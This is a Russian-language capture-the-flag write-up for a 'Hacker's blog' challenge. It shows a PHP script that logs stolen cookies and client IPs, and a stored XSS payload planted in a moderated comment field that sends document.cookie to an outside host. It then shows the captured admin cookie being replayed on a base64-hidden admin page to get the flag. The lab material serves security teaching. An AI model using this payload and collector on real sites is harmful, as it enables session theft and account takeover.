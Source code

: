 ﻿# Hacker's blog

![Site](/img/1.png)

1. Заходим на хакерский блог, видим статьи. Переходим в любую статью и обнаруживаем комментарии.
2. Пробуем что-нибудь написать. Видим, что стоит премодерация (10 мин) - значит админ просматривает комментарии и удаляет плохие комментарии.
3. Пробуем осуществить XSS атаку. Пишем простенький код для принятия куков на своем веб-сервере:
```php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);
if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fclose($file);
?>
```
5. Далее пишем в поле текст JS, который будет воровать куки:
```js
<script>var img=new Image();img.src="http://site.ru/xss.php?"+ encodeURI(document.cookie);</script>
```
4. Ждем 10 минут, смотрим полученные куки. password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; login=admin
5. Теперь необходимо где-то применить полученные куки. Для этого ищем админку или авторизацию. На любой странице можно найти комментарий: Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvYWRtaW42NDY0MS5waHA=.  Раскодируем base64, получаем - http://10.0.7.216:54337/admin64641.php
6. Видим надпись: "Неверный логин или пароль! Доступ запрещен!". Используем любое расширение для назначения куков. Для Firefox - https://addons.mozilla.org/ru/firefox/addon/cookies-manager-plus/developers 
7. На странице admin64641.php видим флаг.
